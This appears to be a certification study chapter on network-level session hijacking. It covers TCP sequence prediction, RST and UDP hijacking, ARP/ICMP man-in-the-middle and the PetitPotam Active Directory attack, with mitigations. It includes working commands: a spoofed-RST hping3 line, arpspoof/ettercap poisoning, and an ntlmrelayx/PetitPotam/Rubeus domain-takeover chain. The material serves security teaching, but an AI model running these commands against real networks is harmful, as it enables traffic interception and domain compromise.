

# 03 — Network-Level Session Hijacking

## Table of Contents
- [Overview](#overview)
- [The TCP Three-Way Handshake, in Depth](#the-tcp-three-way-handshake-in-depth)
- [TCP/IP Hijacking](#tcpip-hijacking)
- [IP Spoofing: Source-Routed Packets](#ip-spoofing-source-routed-packets)
- [RST Hijacking](#rst-hijacking)
- [Blind Hijacking](#blind-hijacking)
- [UDP Hijacking](#udp-hijacking)
- [MITM Attack Using Forged ICMP and ARP Spoofing](#mitm-attack-using-forged-icmp-and-arp-spoofing)
- [PetitPotam Hijacking](#petitpotam-hijacking)
- [Comparison of Network-Level Techniques](#comparison-of-network-level-techniques)

---

## Overview

Attackers gravitate toward network-level session hijacking for a simple reason: it doesn't require host access to the victim machine (unlike host-level compromise), and it doesn't need to be tailored per web application (unlike application-level hijacking). One technique — say, ARP spoofing — works against the data flow of *every* application sharing that network segment.

The six network-level techniques covered here:

1. Blind hijacking
2. UDP hijacking
3. TCP/IP hijacking
4. RST hijacking
5. MITM: packet sniffer (forged ICMP / ARP spoofing)
6. IP spoofing: source-routed packets

...plus **PetitPotam**, a modern, real-world Windows Active Directory attack chain that combines several of these ideas.

## The TCP Three-Way Handshake, in Depth

Every TCP connection starts with a three-way handshake that exchanges the parameters both sides need to communicate: **IP addresses, port numbers, and sequence numbers.**



1. The client is initially **CLOSED**; the server is **LISTEN**ing. The client sends a SYN with its own Initial Sequence Number (ISN) and enters **SYN-SENT**.
2. The server acknowledges the client's sequence number and sends its own ISN with the SYN flag set. The server is now **SYN-RECEIVED**.
3. The client acknowledges the server's sequence number (incrementing it) and sets the ACK flag. The client is now **ESTABLISHED**.
4. On receiving that ACK, the server also moves to **ESTABLISHED**.

The connection later closes via **FIN** (graceful — the receiving host enters **CLOSE-WAIT**), **RST** (immediate — the receiving host enters **CLOSED** and frees all associated resources, dropping any further incoming packets for that connection), or a timeout.

**A packet is only accepted into an established connection if its sequence number falls within the acceptable window and follows on from its predecessor.** If the sequence number falls outside that window, the packet is dropped and an ACK carrying the *expected* sequence number is sent back.

### Why the Sequence Number Is the Whole Ballgame

Of the three things needed for two parties to communicate (IP address, port number, sequence number):

- **IP address and port number are easy for an attacker to determine** — they're visible in every packet and don't change for the life of the connection.
- **Sequence numbers change constantly**, and this is the one piece of state an attacker actually has to work to obtain, whether by sniffing it directly off the wire or by predicting it. Successfully forging that missing piece — and fooling the server into accepting spoofed packets built around it — is what "hijacking the session" actually means at the protocol level.

## TCP/IP Hijacking

In TCP/IP hijacking, the attacker intercepts an already-established connection between two parties using spoofed packets, then impersonates one of them. The victim's own connection hangs while the attacker communicates with the other side as if they were the victim. Because the attacker needs to sniff the victim's traffic to do this, **the attacker must be on the same network as the victim** — but the target server and the victim machine themselves can be located anywhere. This technique is notably effective against systems relying on **one-time passwords**, since OTP only protects the *login*, not the session that follows it.

**Attack flow:**
1. The attacker sniffs the victim's connection and, using the victim's IP address, sends a spoofed packet carrying a predicted sequence number.
2. The receiver processes the spoofed packet as legitimate, increments its sequence number, and sends an ACK back to the victim's IP.
3. The real victim machine, having sent no such packet, ignores that unexpected ACK — and because it never sees an ACK for what it *did* send, it effectively falls out of sync with its own outgoing sequence count.
4. The receiver is now expecting a sequence number the real victim knows nothing about — the victim's connection to the receiver is desynchronized.
5. The attacker keeps tracking sequence numbers and continues spoofing packets that appear to originate from the victim's IP.
6. The attacker goes on communicating with the receiver while the real victim's connection simply hangs.

### Worked Packet Trace

```
User                                                Server
 |--- SYN <ClientISN 1200> <WIN 512> --------------->|
 |<-- SYN <ServerISN 1500> <WIN 1024> / ACK 1201 -----|
 |--- ACK 1501 -------------------------------------->|
 |--- DATA=128 <SEQ 1201> --------------------------->|
 |<-- ACK (SEQ+DATA) 1329 ----------------------------|
 |--- DATA=91 <SEQ 1329> ---------------------------->|
 |<-- ACK (SEQ+DATA) 1420 ----------------------------|
 |                                                     |
 [ ATTACKER now injects, racing the real user: ]       |
Attacker--- DATA=20 <SEQ 1420> --------------------->|
 |<-- ACK 1440 ---------------------------------------|
Attacker--- DATA=50 <SEQ 1440> --------------------->|
```

The next sequence number the server expects is **1420**. If the attacker transmits a packet using that exact sequence number *before* the real user's next packet arrives, the server synchronizes with the attacker instead. From that point on, the server drops the legitimate user's correctly-sequenced packets — believing them to be duplicate retransmissions — while the real user, having never received an ACK for their own TCP packet, may keep resending it, only to have it dropped every time. The local session hijack is now complete.

## IP Spoofing: Source-Routed Packets

Source-routed packets let an attacker gain unauthorized access to a computer using a **trusted host's** IP address, exploiting IP's (largely legacy) **source routing** option, which lets the *sender* specify the exact path a packet should take to its destination.

**Attack flow:**
1. The attacker spoofs a trusted host's IP address so that the server managing a session with that host accepts packets that actually came from the attacker.
2. Once the session is established, the attacker injects forged packets before the real host gets a chance to respond.
3. The original packet from the legitimate host is lost — the server has already received a packet using that sequence number, from the attacker.
4. The attacker's packets are source-routed *through* the trusted host, on to whatever destination IP the attacker has specified.

> **Modern context:** most operating systems and routers today drop IP packets carrying source-routing options (Loose/Strict Source and Record Route, LSRR/SSRR) by default, specifically because of well-known abuse like this. This attack is far more relevant to legacy/embedded networking stacks and CEH-exam theory than to a typical modern internet-facing target — but it remains conceptually important, and some internal/industrial networks still permit it.

## RST Hijacking

RST hijacking involves injecting an authentic-looking **TCP RST packet** using a spoofed source address, along with a correctly predicted acknowledgment number. If the ACK number is accurate, the victim's machine believes the reset genuinely came from the other party and tears down the connection.

**Tools mentioned in the official curriculum:** **Colasoft Packet Builder** (for crafting the packet) and **tcpdump** (for the TCP/IP traffic analysis needed to obtain the current sequence/ACK numbers to predict from).

### Worked Example

```
Victim (192.168.0.100)                          Server (192.168.0.200)
 |--- SRC:192.168.0.100 DST:192.168.0.200 ---------->|
 |    SEQ#1429775000 ACK#1250510000 LEN:24            |
 |<-- SRC:192.168.0.200 DST:192.168.0.100 ------------|
      SEQ#1250510000 ACK#1429725024 LEN:167
                              ▲
                              │ (attacker spoofs the server's IP,
                              │  predicts the ACK#, sends RST)
                         Attacker
```

### Illustrative Lab Command (hping3)

The following syntax is illustrative of how an RST-injection packet is crafted for **authorized lab/CTF use only** — e.g. against your own local test VMs:

```bash
# Craft a spoofed RST packet, appearing to come from the server,
# with the predicted ACK number, aimed at the victim:
sudo hping3 -c 1 -R \
  -a 192.168.0.200 \
  -s 80 -p 51820 \
  -M 1429725024 \
  192.168.0.100
```
- `-R` sets the RST flag
- `-a` spoofs the source IP (the server's address)
- `-M` sets the sequence number field
- The victim's stack will only honor this RST if the ACK/sequence numbers fall inside its acceptable window — hence the need to predict them via prior sniffing.

## Blind Hijacking

In blind hijacking, an attacker can inject malicious data or commands into an intercepted TCP session **even if source routing is disabled on the target**, but only if they can correctly guess the target's next Initial Sequence Number (ISN). The catch: the attacker can send data or commands (e.g., planting a password that allows access from elsewhere on the network) but **cannot see the response** at all. If seeing the response matters, a full MITM position is a far better option than blind injection.

## UDP Hijacking

UDP has no sequencing or synchronization built in at all — no three-way handshake, no sequence numbers to predict — which makes a UDP session considerably easier to attack than a TCP one. Because UDP is connectionless, it's easy to modify data in transit without the victim ever noticing.

**How it works:**
1. **Spoofing the source IP** — since UDP requires no handshake before data transmission, an attacker can simply send UDP packets with a spoofed source address, pretending to be another host.
2. **Intercepting the traffic** — the attacker sends forged UDP packets to the client or server that appear to come from a legitimate source but carry malicious data or instructions.
3. **Manipulating the communication** — by inserting false information into the data stream or initiating unauthorized requests, the attacker manipulates the behavior of an application relying on UDP traffic.

A network-level hijacker forges a server's reply to a client's UDP request **before the real server can respond**, taking control of the exchange. If the attacker also achieves a MITM position (able to *stop* the real server's reply from ever reaching the client), the attack becomes even more reliable, since there's no risk of the real reply "winning the race."

## MITM Attack Using Forged ICMP and ARP Spoofing

Here, a packet sniffer is used as the interface *between* the client and server: the attacker changes the client's default gateway and reroutes packets so that everything passes through the attacker's own machine first, using one of two techniques.

### Forged ICMP

ICMP is an extension of IP used to send error messages. An attacker can send forged ICMP messages that appear to indicate a routing problem, fooling the client and server into rerouting their traffic through the hijacker's own path instead of the real one.

### Address Resolution Protocol (ARP) Spoofing

Hosts use **ARP tables** to map network-layer addresses (IP addresses) to link-layer hardware addresses (MAC addresses). An attacker exploits this by broadcasting forged ARP replies that update a host's ARP table to associate the gateway's (or another host's) IP address with the **attacker's own MAC address** — routing that traffic to the attacker instead of its legitimate destination.

```bash
# Illustrative ARP-spoofing lab commands (authorized environments only)

# Classic dsniff-suite arpspoof — poison the victim into thinking
# you are the gateway:
sudo arpspoof -i eth0 -t 192.168.1.50 192.168.1.1

# ...and poison the gateway into thinking you are the victim,
# so traffic flows both ways through you:
sudo arpspoof -i eth0 -t 192.168.1.1 192.168.1.50

# Equivalent one-liner using ettercap's built-in ARP MITM plugin:
sudo ettercap -T -q -M arp:remote /192.168.1.50// /192.168.1.1//
```

In both the ICMP and ARP techniques, the attacker ends up routing all in-transit traffic between client and server through their own machine — the prerequisite most other application-level attacks in this module (sniffing, CRIME, session-token theft) depend on to actually see the traffic in the first place. (See also Module 8 — Sniffing, which covers ARP poisoning mechanics in more depth as a standalone topic.)

## PetitPotam Hijacking

**PetitPotam** is a real, publicly disclosed attack chain against Windows Active Directory environments (tracked as **CVE-2021-36942**), and it's a good example of how "session hijacking" concepts show up in modern enterprise attack paths, not just classroom TCP diagrams.

In a PetitPotam attack, an attacker forces a **Domain Controller (DC)** to initiate authentication to the attacker's own server, using Microsoft's **Encrypting File System Remote Protocol (MS-EFSRPC)** API for the coercion. The attacker's SMB server manipulates the exchange so the DC believes it's talking to a legitimate resource and hands over its **NTLM** authentication material. The attacker then relays that NTLM authentication to **Active Directory Certificate Services (AD CS)** and requests a certificate — which can then be used to acquire administrative privileges over the AD CS server and, from there, the entire domain the DC manages.

**Attack flow:**
1. The attacker authenticates to the target server using already-captured NTLM credentials of a legitimate domain user.
2. The attacker uses the `EfsRpcOpenFileRaw` call from the MS-EFSRPC API to coerce the target (the DC) into performing NTLM authentication against a system of the attacker's choosing.
3. The attacker initiates an NTLM relay attack, forwarding that coerced authentication to gain remote access to the target AD CS.
4. The attacker requests and receives an AD certificate, granting administrator privileges over the AD CS server — and by extension, the domain.

### Commands (from the official curriculum, using the Impacket toolkit)

```bash
# 1. Identify the certificate authority
certutil.exe

# 2. Set up an HTTP/SMB relay listener (Impacket) to capture and relay
#    credentials coerced from the Domain Controller:
ntlmrelayx.py -t <URL of Certificate authority with web enrolment> \
  -smb2support --adcs --template DomainController

# 3. Force the DC to authenticate to your listener via the MS-EFSRPC
#    API call, using already-captured credentials:
python3 PetitPotam.py -d <CA name> -u <Username> -p <Password> \
  <Listener-IP> <IP of DC>

# 4. If the DC is vulnerable, the attack can also be launched with
#    NO credentials at all, to receive the certificate's NTLM hashes:
python3 PetitPotam.py <Attacker's IP> <IP of DC>

# 5. Use the obtained NTLM hashes with Rubeus to request a Kerberos
#    ticket carrying Domain Controller account privileges:
Rubeus.exe asktgt /outfile.kirbi /dc:<DC-IP> /domain:<domain name> \
  /user:<Domain username> /ptt /certificate:<NTLM hashes received from above command>
```

### Real-World Defensive Mitigations (added context)

Because PetitPotam is a real CVE with real Microsoft guidance, the following are the actual recommended mitigations — useful to know alongside the attack mechanics:

- Disable NTLM authentication on the Domain Controller where possible, or enforce **Extended Protection for Authentication (EPA)** on AD CS.
- Disable HTTP (non-HTTPS) enrollment endpoints on AD CS servers.
- Enable **NTLM relay protections** for AD CS certificate services (`ms-mcs-admpwd`/relay hardening per Microsoft's KB5005413 guidance).
- Restrict and monitor use of the EFS-RPC and related legacy RPC interfaces at the network level.
- Monitor for anomalous inbound authentication attempts *originating from* Domain Controllers, which is the tell-tale signature of a coercion attack.

## Comparison of Network-Level Techniques

| Technique | Requires Same LAN? | Attacker Sees Responses? | Protocol Layer | Key Tool(s) |
|---|---|---|---|---|
| **Blind Hijacking** | No (works remotely if ISN is guessable) | No | TCP | Custom scripting / sequence prediction |
| **UDP Hijacking** | Helpful but not strictly required | Only with MITM position | UDP | Packet crafting (Scapy, hping3) |
| **TCP/IP Hijacking** | Yes (to sniff the victim's traffic) | Yes, for the attacker's own forged side | TCP | Sniffer + packet crafting |
| **RST Hijacking** | Yes (to predict ACK/SEQ) | N/A — goal is to *terminate*, not observe | TCP | Colasoft Packet Builder, tcpdump, hping3 |
| **MITM (ARP/ICMP)** | Yes | Yes — full traffic visibility | Link/Network layer | bettercap, ettercap, arpspoof |
| **IP Spoofing (Source-Routed)** | No (relies on source routing) | Yes, via source-routed return path | Network layer | Custom packet crafting |
| **PetitPotam** | No (works over the network to AD CS) | Yes — full NTLM relay visibility | Application (RPC/NTLM) | Impacket (`PetitPotam.py`, `ntlmrelayx.py`), Rubeus |

---
**Next:** [`04-session-hijacking-tools.md`](04-session-hijacking-tools.md) — the tools attackers and pentesters actually use to carry out these techniques.
